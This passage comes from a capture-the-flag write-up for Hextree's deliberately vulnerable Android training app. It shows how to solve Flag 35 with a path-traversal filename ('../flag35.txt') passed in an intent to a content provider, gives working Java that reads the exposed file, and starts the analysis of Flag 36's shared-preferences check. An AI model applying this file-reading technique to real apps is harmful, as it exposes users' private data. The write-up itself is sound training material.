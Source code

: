 #### Solution
lets see the uri that will be used to access `secret.txt` 
`URI: content://io.hextree.root/root_files/data/data/io.hextree.attacksurface/files/secret.txt`

lets try request with `intent.putExtra("filename","flag35.txt");`
`URI: content://io.hextree.root/root_files/data/data/io.hextree.attacksurface/files/flag35.txt`

we are looking inside folder `files` ? so to get around that we do as we normally do in any terminal, we take a step back using `..` 

```java
	Intent intent = new Intent();  
	intent.putExtra("filename","../flag35.txt"); //you want secret so dont use it  
	intent.setComponent(new ComponentName("io.hextree.attacksurface", "io.hextree.attacksurface.activities.Flag35Activity"));  
	startActivityForResult(intent,1);
	
	if (requestCode == 1) {  
	        Log.d("Hextree","URI: "+ data.getData().toString());  
	    try {  
	        InputStream inputStream = getContentResolver().openInputStream(data.getData());  
	        BufferedReader reader = new BufferedReader(new InputStreamReader(inputStream));  
	        String line ;  
	        while ((line = reader.readLine()) != null) {  
	            Log.d("File", "[*]" + line);  
	        }  
	    } catch (FileNotFoundException e) {  
	        throw new RuntimeException(e);  
	    } catch (IOException e) {  
	        throw new RuntimeException(e);  
	    }  
	}
```

Then press done and see the magic

![[flag35.png]]

### Flag 36
#### Code analysis
```java
if (Flag36Preferences.getBoolean("solved", false)) {
            this.f.addTag(Flag36Preferences.class);
            success(this);
        } else {
            Log.i("Flag36", "Not solved yet: \"solved=false\" in the `Flag36Preferences` shared preferences");
        }
```

if the shared preferences named `Flag36Preferences` and if it has value named `solved` set to `true` we get our flag  but what is this shared preference ?
